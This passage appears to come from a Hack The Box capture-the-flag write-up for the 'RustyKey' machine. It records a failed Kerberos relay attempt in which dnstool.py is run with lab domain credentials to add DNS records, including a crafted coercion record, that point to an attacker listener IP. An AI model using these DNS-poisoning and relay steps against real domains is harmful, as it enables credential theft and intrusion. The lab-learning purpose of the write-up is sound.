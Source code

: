 ![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-07-05-week7-rustykey.md/2025-07-05-week7-rustykey/images/image-1.png)

### Rabbit hole of KerbRelayX
This didn't go anywhere, but it is a super interesting application of attempting to force a kerberos callback to a listener to steal credentials if you have a valid agent that can phone back home. Because of SMBSigning throughout this challenge, NTLMRelay/KerbRelay do not work; but it was a fun exercise so I'm leaving these notes here because I did get phones home at least..

I should have taken the hint for it-computer3 that timeroasting is a viable approach, but I didn't know it existed yet.

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    RootDNSServers
    rustykey.htb
[-] Found 1 forest DNS zones:
    _msdcs.rustykey.htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones-dn
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
    DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[-] Found 1 forest DNS zones:
    DC=_msdcs.rustykey.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=rustykey,DC=htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
```